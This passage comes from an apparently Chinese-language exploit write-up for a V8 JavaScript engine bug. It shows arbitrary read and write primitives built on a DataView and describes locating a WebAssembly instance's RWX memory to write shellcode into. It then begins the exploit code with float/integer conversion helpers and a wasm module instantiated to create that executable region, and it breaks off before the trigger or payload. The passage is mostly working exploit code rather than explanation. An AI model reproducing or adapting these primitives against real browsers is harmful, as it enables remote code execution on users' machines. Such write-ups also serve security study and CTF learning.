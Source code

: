 ```javascript
	}
	throw "write_databuf failed!";
}

//----- arbitrary read

function dataview_read64(addr)
{
	write_databuf(addr);
	return f2i(data_view.getFloat64(0, true));
}

//----- arbitrary write
function dataview_write(addr, payload)
{
	write_databuf(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}
```

（4）最后通过**wasm_function->wasm_shared_info->wasm_data->wasm_instance** 找到rwx的区域，将shellcode写入该区域即可完成利用。

**exp 代码：**

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var Uint32 = new Uint32Array(buf);
function f2i(f)
{
	float64[0] = f;
	let tmp = Array.from(Uint32);
	return tmp[1] * 0x100000000 + tmp[0]; 
}

function i2f(i)
{
	let tmp = [];
	tmp[0] = parseInt(i % 0x100000000);
	tmp[1] = parseInt((i-tmp[0]) / 0x100000000);
	Uint32.set(tmp);
	return float64[0];
}

function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;

let p1, p2;
let obj_len = 0x30;
```